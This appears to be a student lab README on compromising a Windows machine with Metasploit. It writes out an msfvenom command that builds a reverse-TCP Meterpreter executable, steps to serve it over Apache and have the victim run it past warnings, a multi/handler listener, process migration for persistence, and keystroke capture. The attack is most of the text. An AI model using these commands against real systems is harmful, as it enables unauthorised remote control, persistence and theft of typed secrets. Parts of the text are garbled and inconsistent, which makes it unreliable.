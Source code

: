 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig 322251922-6e11e35c-4c2c-4b7f-b903-58b1582a464b
![326166201-64512098-0d84-4645-9059-68ed6b6b5adc](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/393ed3d5-efb8-44ef-8082-3c7d6a12c3b4)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe 
![326166233-3bde8b72-fa12-42de-acd2-5ece3ce69ac6](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/e27602cf-4e02-4604-a34a-98d73a124625)
copy the fun.exe into the apache /var/www/html folder 
![326166259-4e5d8477-9f77-49ef-9deb-5dc660daafd1](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/05c72a7b-a426-4e30-ab2a-5ca4d3a03661)
Start apache server sudo systemctl apache2 start
![326166277-48fa7c6c-eef6-4979-b607-4e1404e804b1](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/8ccd41c0-096c-44df-b2ea-5f9923139797)
Check the status of apache2
![326166296-0fdb2841-36e8-47af-b0b7-385bc1f4e828](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/e9012cb0-e60d-4b46-83a2-89f5273dd91c)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![326166316-27254eeb-6e3e-4ca0-938f-fa39732b8b8a]
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. (https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/6a71f1a6-830e-4160-8355-3cb87ec0e619)
![326166328-526ad741-5b14-4834-ad3a-e6da1c055443](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/0c1e87cf-0d93-4b73-b854-073f176360f0)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![326166338-6bf1ff2b-9c4d-4182-83a8-08084c38ecb6](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/e3cbc0ef-2ff1-42c9-8652-be2561ae0d1b)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![326166376-7384bedc-8b4f-466d-b23b-62d731f12222](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/907beef6-2d4c-4006-8283-c3732350f62e)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name
![326166382-2c5bae06-069c-4f6d-b2ae-517962997c9d](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/f9024554-a29a-4ab1-bdee-f0d3500b9767)
keyscan_dump Shows the keystrokes captured so far
![326166391-be9cd713-7ed5-40d9-aa86-05697e778414](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/9b8e4748-0513-4b04-80c2-33764da9e208)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
